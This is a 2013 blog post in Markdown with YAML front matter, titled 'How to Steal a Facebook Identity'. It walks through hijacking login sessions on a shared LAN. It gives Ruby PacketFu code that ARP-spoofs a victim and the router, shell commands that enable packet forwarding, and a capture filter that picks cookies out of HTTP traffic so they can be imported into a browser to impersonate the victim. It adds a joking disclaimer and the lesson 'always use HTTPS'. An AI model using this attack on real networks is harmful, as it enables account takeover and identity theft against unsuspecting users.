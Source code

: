 ```yaml
---
categories:
- posts
comments: true
date: 2013-08-27T00:00:00Z
excerpt: How to steal a facebook identity. Identity theft in general - a heads up
  on why you should use HTTPS for all sites you have an account on.
featured_image: /images/hack_facebook.jpg
image:
  feature: steal-facebook-identity.jpg
  topPosition: -300px;
keywords:
- identity theft
- facebook
- security
- arp spoofing
share: true
title: How to Steal a Facebook Identity
url: steal-facebook-identity
photos:
    - /images/steal-facebook-identity.jpg
---
```


How to hack cookie based authentication - a.k.a why you should use HTTPS for all sites you have an account on.


*UPDATE: This hack no longer works with Facebook as its https only now. Cool. This technique though can still be applied to other sites.*

So you want to know how to steal someone’s facebook identity. How to impersonate the poor victim. How to post embarrassing status updates, pictures in his/her name. Naughty, aren’t we? Let’s view this as a tech challenge instead, forget the nasty things we could do with it. This howto touches basic online security issues and some networking internals. Prepare for the journey, fasten your seatbelts. 

Guys, first, seriously, this is definitely not a nice thing to do. Really. Don’t do it. Stop reading right now. 

Well, if you still insist… 

Here’s a list of ingredients: 

* A LAN to operate on. It can be your school’s LAN, your workplace or your home router’s network.
* Some basic knowledge about network protocols: ARP, TCP/IP, Ethernet and HTTP
* Ruby skills. Get some. Really. Trust me, it’s worth it!
* A UNIX-based OS. This might work on windows, too, but no guarantees. I use OS X for daily work.
* Patience. Sometimes a lot.

So, let’s get to know the concepts step by step.
## A short intro to ARP

ARP stands for “Address Resolution Protocol” and - well, what do you know - it handles MAC and IP address conversions on a conventional TCP/IP ethernet based network. As you all know, TCP/IP packets are encapsulated in Ethernet packets, and Ethernet only knows those so-called [MAC (Media Access Control)](http://en.wikipedia.org/wiki/MAC_address) addresses, it has no idea about IP addresses or domain names.

When you send a standard TCP/IP packet from your machine, your OS wraps it up in a nice Ethernet packet and asks your network card to kindly send it to the network card which has the destination MAC address (it is much more complicated (routing, etc.) but this is enough for us in this project).

Therefore your OS needs to know which IP address(es) belong to which MAC address. Of course if there’s a router involved (and there must be if you’re on a LAN) it also needs to know this. This table is filled up when ARP messages travel on the network. An ARP announcement or reply message basically says “hey guys, the IP 1.2.3.4 is associated to the mac address 03:f9:06:e4:6b:0b”.

This IP <—-> MAC conversion list is called the ARP table or ARP cache. We are going to ‘poison’ this table. More on this a few paragraphs later.

## A few thoughts on sessions, users and logins

Most sites are using cookies to handle user logins and authentication. HTTP is a statelessprotocol. A stateless protocol does not require the server to retain information or status about each user for the duration of multiple requests. To have some kind of identification, we use cookies. A cookie is a key-value pair stored in the browser (so client-side) with two more extra information: lifetime and access control. With each request, if the cookie is still alive (lifetime) and the access control allows the server to receive the cookie, the client sends the cookie in its headers. You can read more on this [here](http://en.wikipedia.org/wiki/HTTP_cookie). The cookies are first sent by the server (or server application) which this way try to store user-level data, such as login state, userid, etc.

For example, the most interesting cookies coming from facebook are: c_user , datr , sct and xs - they are enough to identify session for a logged in user. When we log in to facebook, these cookies get set and on every request the server knows who we are (and that we are logged in) using these cookies which the browser sends back every time. We will  intercept these cookies travelling on the network from our victom to facebook’s servers.

## How to intercept communication on a LAN

This is actually easier than you’d think, thanks to serious security flaws in the design of the ARP protocol. Well, ARP is old and back then there weren’t so big security concerns.

Basically we’re going to lie to our victim’s machine saying we’re the router, and also lie to the router saying we’re the victim’s machine.

Let’s imagine a network with 3 hosts: 1 router and 2 client ‘user’ machines. The router has the IP 10.0.0.1 and the clients have 10.0.0.100 and 10.0.0.101. We are 10.0.0.100 and our victim is 10.0.0.101.

To achieve this, recall ARP. We send an ARP announcement/reply to the victim’s machine stating that the router’s IP address is associated to our MAC address, thus every TCP/IP package sent to the router by the victim’s machine will actually be sent to us. The other half of the story is that we also send an ARP message to the router saying that the victim’s IP address is associated to our MAC address this way we get the response packages coming from the router to the client. Then all we need to do is read the travelling packages while forwarding them respectively to the router and the client (so that packages really also reach their destination).

Well, we also need to enable something in the OS which is called ‘packet forwarding’ so that packages not targeted to us get accepted and parsed.

In linux, it is a simple
{% codeblock lang:bash %}
echo 1 > /proc/sys/net/ipv4/ip_forward
{% endcodeblock %}

In OS X, it’s a bit different
{% codeblock lang:bash %}
sysctl -w net.inet.ip.forwarding=1
{% endcodeblock %}

 
## Now the stage is set to do some programming.

We will use ruby (1.8 and 1.9 are both good), and we will need the gem called ’PacketFu’ and its dependency PcapRub which is a ruby wrapper to the libpcap library. These will help us with low-level network operations and packet capturing, parsing.

First things first, let’s send out the ARP spoofing packages:

{% codeblock lang:ruby %}
arp_packet_victim = PacketFu::ARPPacket.new()
arp_packet_victim.eth_saddr = 'd2:7b:9c:71:7b:6f'       # our MAC address
arp_packet_victim.eth_daddr = 'd4:9e:cb:08:5a:27'       # the victim's MAC address
arp_packet_victim.arp_saddr_mac = 'd2:7b:9c:71:7b:6f'   # our MAC address
arp_packet_victim.arp_daddr_mac = 'd4:9e:cb:08:5a:27'   # the victim's MAC address
arp_packet_victim.arp_saddr_ip = '10.0.0.1'             # the router's IP
arp_packet_victim.arp_daddr_ip = '10.0.0.101'           # the victim's IP
arp_packet_victim.arp_opcode = 2                        # arp code 2 == ARP reply

arp_packet_router = PacketFu::ARPPacket.new()
arp_packet_router.eth_saddr = 'd2:7b:9c:71:7b:6f'       # our MAC address
arp_packet_router.eth_daddr = '29:ef:54:43:78:32'       # the router's MAC address
arp_packet_router.arp_saddr_mac = 'd2:7b:9c:71:7b:6f'   # our MAC address
arp_packet_router.arp_daddr_mac = '29:ef:54:43:78:32'   # the router's MAC address
arp_packet_router.arp_saddr_ip = '10.0.0.101'           # the victim's IP
arp_packet_router.arp_daddr_ip = '10.0.0.1'             # the router's IP
arp_packet_router.arp_opcode = 2                        # arp code 2 == ARP reply

# we send out both packages
arp_packet_victim.to_w(@interface)
arp_packet_router.to_w(@interface)
 {% endcodeblock %}

Actually in a real-world situation we need to keep sending these packages during the whole capturing session, for example in a thread.

Now we start a capturing session on the designated interface with some default filtering (port: 80 and HTTP requests. See the filter format docs for more info)

{% codeblock lang:ruby %}
capture_session = PacketFu::Capture.new(:iface => 'eth0', :start => true, :promisc => true, :filter => "tcp port 80 and (((ip[2:2] - ((ip[0]&0xf)<>2)) != 0)")
{% endcodeblock %}


Now we only need to see if there’s any cookie travelling:
{% codeblock lang:ruby %}
capture_session.stream.each { |packet|
  puts "Woohoo I found a cookie" if packet =~ /ookie/
}
{% endcodeblock %}

 

Nice and easy. We can then parse these cookies and save them in for example netscape cookie format, which we can import  to a browser session with a firefox plugin called Cookie importer.

### So, what is the lesson? Always use HTTPS. Always.

*UPDATE*

I’ve published the code: [https://github.com/ochronus/ArpSpoof](https://github.com/ochronus/ArpSpoof)
